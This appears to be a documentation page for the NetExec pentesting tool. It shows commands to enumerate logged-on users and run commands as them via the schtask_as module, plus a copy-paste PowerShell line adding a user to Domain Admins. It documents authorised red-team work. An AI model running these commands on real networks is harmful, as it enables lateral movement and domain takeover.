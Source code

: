 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# 🆕 Impersonate logged-on Users



{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte\_).

### 1. Enumerate logged-on users on your Target

```
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

### 2. Execute commands on behalf of other users

```
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

Custom command to add a user to the domain admin group for easy copy\&pasting:&#x20;

```
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
